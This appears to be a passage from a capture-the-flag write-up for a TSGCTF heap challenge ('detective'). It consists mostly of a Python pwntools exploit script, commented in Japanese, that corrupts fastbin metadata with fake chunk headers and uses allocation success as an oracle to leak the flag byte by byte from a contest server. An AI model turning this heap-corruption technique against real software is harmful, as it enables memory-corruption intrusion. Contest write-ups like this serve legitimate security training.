 ```python
    """
    """
        1. fastbin: A -> Bとなっている時に相対書き込みでAのfdの末尾バイトをflag[i]にすることが出来る
        2. すると次の次の確保アドレスが確定する
        3. 事前にどのフラグかを予想しておき、そこが正常に取られるように偽装チャンク(というかヘッダ)を用意しておく
        4. もし無事に取得出来たらフラグ確定(オラクルになる)
        5. 最悪アクセス数は32*16
    """

    flag = ""
    size = 0x78
    for flag_idx in range(7, 39):
        for c in "0123456789abcdef":
            # s = process("./detective")
            s = remote("35.221.81.216", 30001)
            s.recvuntil(b"index > ")
            s.sendline(str(flag_idx))
            # fill tcache
            for _ in range(7):
                alloc(s, 1, size)
                dealloc(s, 1)
                alloc(s, 1, 0x18)
                dealloc(s, 1)

            alloc(s, 0, 0x18)
            dealloc(s, 0)
            pad = ord(c) - 0x10 - 0x8
            payload = b"a" * pad + p64(0x81)
            alloc(s, 0, size, payload)
            alloc(s, 1, size)

            dealloc(s, 0)
            dealloc(s, 1)

            alloc(s, 0, 0x18)
            _read(s, 0, 0xa0)

            alloc(s, 0, size)
            try:
                alloc(s, 0, size)  # if size is valid, I can get a chunk!!
                print("[+] found:", c)
                flag += c
                break
            except EOFError:
                pass

    print(f"TSGCTF{{{flag}}}")

```

## Flag
